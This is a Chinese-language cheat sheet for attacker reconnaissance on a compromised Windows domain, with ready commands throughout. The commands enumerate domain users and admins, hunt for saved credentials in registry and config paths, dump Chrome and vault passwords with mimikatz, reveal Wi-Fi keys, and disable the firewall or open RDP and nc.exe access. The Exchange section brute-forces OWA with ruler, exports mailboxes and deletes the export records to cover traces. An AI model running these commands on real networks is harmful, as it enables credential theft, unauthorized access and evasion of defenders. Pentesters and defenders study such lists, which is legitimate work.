




# Windows信息收集list

## SPN

SPN即(Service Principal Names)服务器主体名称，可以理解为一个服务(如HTTP，MSSQL)等的唯一标识符，**在加入域时是自动注册的**，如果想使用`Kerberos`协议来认证服务，那么必须正确配置SPN。

### SPN扫描的优势

在查询SPN的时候，会向域控制器发起LDAP查询，这是正常Kerberos票据行为的一部分，所以很难被检测出来。且不需要进行大范围扫描，效率高，不需要与目标主机建立链接，可以隐蔽的同时快速发现内网中的资产以及服务。

### setspn

普通域用户即可查询

```
setspn -T domain.com -Q */*
```


### kerberoast工具包

```
https://github.com/nidem/kerberoast
```


可以用于快速定位`域控`，以及排查内网中存在的`服务及主机`。

## 端口

```
netstat -ano -p tcp
```



利用netstat -ano命令获取机器通信信息，根据通信的端口、ip可以获取到如下信息:

* 如果通信信息是入流量，则可以获取到跳板机/堡垒机、管理员的PC来源IP、本地web应用端口等信息

* 如果通信信息是出流量，则可以获取到敏感端口（redis、mysql、mssql等）、API端口等信息

## web配置文件

一个正常的Web应用肯定有对应的数据库账号密码信息，可以使用如下命令寻找包含密码字段的文件

```
findstr /s /m "password" *.*
下面是常用应用的默认配置路径：

Tomcat:
CATALINA_HOME/conf/tomcat-users.xml

Apache:
/etc/httpd/conf/httpd.conf

Nginx:
/etc/nginx/nginx.conf

Wdcp:
/www/wdlinux/wdcp/conf/mrpw.conf

Mysql:
mysql\data\mysql\user.MYD
```

## 域网络对象信息

### 判断是否有域环境

```
ipconfig /all 	  		 #查看网关 IP 地址、DNS 的 IP 地址、本地地址是否和 DNS 服务器为同一网段、域名
nslookup 域名    		   #通过反向解析查询命令 nslookup 来解析域名的 IP 地址。使用解析出来的 IP 地址进行对比，判断域控制器和 DNS 服务器是否在同一台服务器上
systeminfo        		 #域显示不为workgroup 说明有域
net config workstation   #工作站域 DNS 名称显示域名（如果显示为 WORKGROUP，则表示非域环境）。登录域表明当前用户是域用户登录还是本地用户登录。
net time /domain  		 #判断主域。存在域，但是当前用户不是域用户，提示拒绝访问；存在域，是域用户，提示成功完成；不存在域，提示找不到域控制器。
```

/domain的命令使用条件：当前机器是域机器，当前用户是域用户

### 查询域用户

```
net user /domain
net group "domain users" /domain
net user 域用户 /domain	  		  		  获取域用户的详细信息
net user /domain 域用户 12345678 	  		  修改域用户密码，需要域管理员权限
net accounts /domain                         查询域用户账户等信息
```

### 查询域管理员

```
net group "domain admins" /domain
```

### 查询域控制器、定位域控制器

```
net group "domain controllers" /domain
net time /domain
ipconfig /all
```

### 查看域内组

```
net group /domain
```

### 查询域机器

```
net group "domain computers" /domain
```

### 共享

```
net view 				查看同一域内机器列表
net view \\IP			查看IP的机器共享
net view \\TEST			查看TEST计算机的共享资源列表
net view /domain 		查看内网存在多少个域
net view /domain:hack	查看hack域中的机器列表
```

## 本地网络对象信息

### 本地用户

```
net localgroup administrators 							查看本机管理员组成员
net localgroup administrators /domain 					登录本机的域管理员
net localgroup administrators workgroup\user01 /add		域用户添加到本机管理组
```

## 主机发现

### 共享

```
net view
```

### Arp路由表

```
arp -a
```

### 查看hosts文件

```
type  c:\Windows\system32\drivers\etc\hosts
```

### 查看DNS

```
ipconfig /displaydns
```

在WINSERVER上，使用dnscmd获取DNS记录

```bash
Dnscmd /ZonePrint hack.local
```



非WINSERVER机器上，使用PowerView.ps1

```powershell
import-module PowerView.ps1
Get-DNSRecord -ZoneName hack.local
```



### nbtscan、nmap

```
nbtscan.exe 192.168.1.4/24
```

### icmp

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="   #利用ICMP协议快速探测内网
```

### arp.exe

```
arp.exe –t 192.168.1.0/20  #arp-scan工具，需要上传arp.exe
```

### powershell

```
powershell.exe -exec bypass -Command "& {Import-Module C:\windows\temp\InvokeARPScan.ps1; Invoke-ARPScan -CIDR 192.168.1.0/24}" >> C:\windows\temp\log.txt  
#使用Nishang中的Invoke-ARPScan.ps1脚本，可以将脚本上传到目标主机执行，也可以直接远程加载执行
```

### scanline

```
scanline -h -t 22,80- 89,110,389,445,3389,1099,1433,2049,6379,7001,8080,1521,3306,3389,5432 -u 53,161,137,139 -O c:\windows\temp\log.txt -p 192.168.1.1-254 /b   
#使用ScanLine对常规 TCP/UDP 端口扫描探测内网
```

## 会话信息

> 用于查看管理员（或某用户）登录过哪些机器，机器被哪些用户登陆过

### 工具

```
PowerView  https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
```

查看用户登录过哪些机器



查询机器被哪些用户登录过


## 凭据信息

### navicat

| MySQL          | HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\<your  connection name> |
| -------------- | ------------------------------------------------------------ |
| MariaDB        | HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers\<your  connection name> |
| MongoDB        | HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers\<your  connection name> |
| Microsoft  SQL | HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers\<your  connection name> |
| Oracle         | HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers\<your  connection name> |
| PostgreSQL     | HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers\<your  connection name> |
| SQLite         | HKEY_CURRENT_USER\Software\PremiumSoft\NavicatSQLite\Servers\<your  connection name> |

### SecureCRT

| xp/win2003       | C:\Documents  and Settings\USERNAME\Application Data\VanDyke\Config\Sessions |
| ---------------- | ------------------------------------------------------------ |
| win7/win2008以上 | C:\Users\USERNAME\AppData\Roaming\VanDyke\Config\Sessions    |

### Xshell

| Xshell 5 | %userprofile%\Documents\NetSarang\Xshell\Sessions            |
| -------- | ------------------------------------------------------------ |
| Xshell 6 | %userprofile%\Documents\NetSarang  Computer\6\Xshell\Sessions |

### WinSCP

| HKCU\Software\Martin  Prikryl\WinSCP 2\Sessions |
| ----------------------------------------------- |

### VNC

| RealVNC  | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver     | Password                      |
| -------- | ------------------------------------------------- | ----------------------------- |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server  Value | Password  or PasswordViewOnly |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4         | Password                      |
| UltraVNC | C:\Program  Files\UltraVNC\ultravnc.ini           | passwd or  passwd2            |

### RDP

```
cmdkey/list
```

## DPAPI

### 解密Chrome密码：

```
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login  Data" /unprotect
```

### 解密Credential：

```
mimikatz vault::cred /patch
```

## 域信任

```
nltest /domain_trusts
```

## 域传送

### windows

```
nslookup  -type=ns domain.comnslookupsserver  dns.domain.comls  domain.com
```

### linux

```
dig  @dns.domain.com axfr domain.com
```

## WIFI

```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do  @echo %j | findstr -i -v echo |  netsh wlan show profiles %j key=clear
```

## GPP

学习提权的时候再做了解

## 其他基础信息收集

### 获取当前shell权限

```
whoami /user && whoami /priv
```

别看到普通权限就提权，实在没法深入再提权。

提权可能打崩服务器，或者不免杀触发警报。


### systeminfo

主要关注修补程序

### 机器名

```
hostname
```

### 操作系统

```
wmic OS get Caption,CSDVersion,OSArchitecture,Version
```

### 版本

```
ver
```

### 查看杀软

```
wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### 查看当前安装程序

```
wmic product get name,version
```

### 查看在线用户

```
quser
```

### 查看进程

```
tasklist /v    #/v可以查看是谁开启的进程
```

### 查看当前登录域

```
net config workstation
```

### 查询并开启RDP

```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber    #查看远程连接端口
wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1    #在 Windows Server 2003 中开启 3389 端口

wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1  
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1
reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

### 查看RDP连接历史

```
cmdkey /l
```

### 查看防火墙配置

```
netsh firewall set opmode disable  			  #winserver2003及之前版本 关闭防火墙
netsh advfirewall set allprofiles state off   #winserver2003之后版本 关闭防火墙
netsh firewall show config #查看防火墙配置
netsh firewall add allowedprogram c:\nc.exe "allow nc" enable  #Windows Server 2003 系统及之前版本，允许指定程序全部连接

netsh advfirewall firewall add rule name="pass nc" dir=in action=allow program="C: \nc.exe"  				#Windows Server 2003 之后系统版本允许指定程序连入
netsh advfirewall firewall add rule name="Allow nc" dir=out action=allow program="C: \nc.exe"  				# 允许指定程序连出
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow   #允许 3389 端口放行
netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log" 								#自定义防火墙日志储存位置
```

## Exchange

exchange一般都在域内的核心位置上，包括甚至安装在域控服务器上，因此需要exchange的相关漏洞，如果拿下exchange机器，则域控也不远了。

### 邮箱用户密码爆破

使用ruler工具对owa接口进行爆破：

```
./ruler --domain targetdomain.com brute --users /path/to/user.txt --passwords /path/to/passwords.txt
```

ruler工具会自动搜索owa可以爆破的接口，如：

https://autodiscover.targetdomain.com/autodiscover/autodiscover.xml

其他如ews接口也存在被暴力破解利用的风险：

https://mail.targetdomain.com/ews

### 通讯录收集

在获取一个邮箱账号密码后，可以使用MailSniper收集通讯录，当拿到通讯录后，可以再次利用上述爆破手段继续尝试弱密码，但是记住，密码次数不要太多，很有可能会造成域用户锁定：

```
Get-GlobalAddressList -ExchHostname mail.domain.com -UserName domain\username -Password Fall2016 -OutFile global-address-list.txt
```

### 信息收集

当我们拿下exchange服务器后，可以做一些信息收集，包括不限于用户、邮件。

获取所有邮箱用户：

```
Get-Mailbox
```

导出邮件：

```
New-MailboxexportRequest -mailbox username -FilePath ("\\localhost\c$\test\username.pst")
```

也可以通过web口导出，登录：

https://mail.domain.com/ecp/

导出后会有记录，用如下命令可以查看：

```
Get-MailboxExportRequest
```

删除某个导出记录：

```
Remove-MailboxExportRequest -Identity 'username\mailboxexport' -Confirm:$false
```


## Seatbelt

## Bloodhound

可以了解，都不推荐使用
